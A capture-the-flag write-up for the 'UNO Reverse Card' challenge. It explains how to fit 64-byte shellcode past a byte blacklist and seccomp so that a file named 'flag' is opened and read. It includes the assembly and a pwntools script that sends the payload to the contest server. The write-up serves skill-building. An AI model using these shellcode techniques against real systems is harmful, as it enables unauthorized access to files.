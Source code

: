 # UNO Reverse Card (Misc 300)
We've done it! We found an open service that will run code we give it! It looks like the server is multithreaded though... Files: uno. Listening on challenge.acictf.com:20109
- The flag is in a file named "flag".
- Shellcode doesn't always need to spawn a shell.

Solves: 18
# Analysis
This challenge is all about writing shellcode, shellcode that specifically fits into the parameters this binary gave us. I spent a little time taking notes on what I was and was not allowed to do in the binary, and what parameters there were. (just because they're in the list below doesn't mean I figured them out right away!)

1. Specific shellcode bytes are blacklisted: 0xc2, 0xc3, 0xca, 0xcb, 0x66, 0x6c, 0x61, and 0x67. Of those, most notable, I cannot use the letters in the word flag, and, I can't use a return.

2. `seccomp` is enabled, and only allows certain syscalls. Specifically, read, write, open, close, exit, and a few others are allowed, all else are blocked.

3. There are two threads, one runs the shellcode forwards, the other runs it in reverse.

4. In order to properly receive output, both threads _must_ return (an exit does not quite achieve this).

5. Before running the shellcode, _all_ file descriptors are closed -- including standard in, standard out, and standard error.

6. Least of all, we only have 64 bytes to fit in our shellcode.

To gloss over a sizable period of testing, I discovered the additional three helpful properties:
1. Since our code is called from a register `call rax`, we know the address of the shellcode is in rax when we begin execution.
2. Similar to the above, when our shellcode executes, we also know that the return address is in `rsp`. Which will assist us in returning properly.
3. The program output was the shellcode provided, and was read from memory after execution.

# Approach
So, my approach to this was to perform two syscalls. One would open the file `flag`. The second would read in the contents, and put it into the location of the shellcode on the stack, which would allow it to be passed back when the results were read and written to the results temp file.

Since I couldn't use the letters in the word `flag`, I changed them all by one and used an increment and a decrement to change them back when executing. (since these opcodes are only one byte long).

Finally, I used the address in `rsp` to jump back to where the execution had finished, so that the two threads would return properly. (For the reverse solution, I simply sent the `jmp [rsp]` in reverse).


# Solution
```nasm
section .text
  global _start

_start:
  push rsp
  push rax
  xor rax,rax
  xor rsi,rsi
  mov al,0x60
  inc al
  mov ah,0x68
  dec ah
  shl rax,16
  mov ah,0x6b
  inc ah
  mov al,0x65
  inc al
  push rax
  xor rax,rax
  mov rdi,rsp
  mov al, 2
  syscall
  pop rsi
  mov rdi,rax
  xor rax,rax
  xor rsi,rsi
  pop rsi
  xor rdx,rdx
  mov dl,0x30
  syscall
  pop rsp
  jmp [rsp]
```

```python
from pwn import *

context.log_level = 'debug'

shell = "\x54\x50\x48\x31\xc0\x48\x31\xf6\xb0\x60\xfe\xc0\xb4\x68\xfe\xcc\x48\xc1\xe0\x10\xb4\x6b\xfe\xc4\xb0\x65\xfe\xc0\x50\x48\x31\xc0\x48\x89\xe7\xb0\x02\x0f\x05\x5e\x48\x89\xc7\x48\x31\xc0\x48\x31\xf6\x5e\x48\x31\xd2\xb2\x30\x0f\x05\x5c\xff\x24\x24"


shell = shell + '\x90'*(0x40-len(shell)-3)+'\x24\x24\xff'

p = remote("challenge.acictf.com",20109)
#p = process('./uno')

raw_input()
p.send(shell)

p.interactive()
```
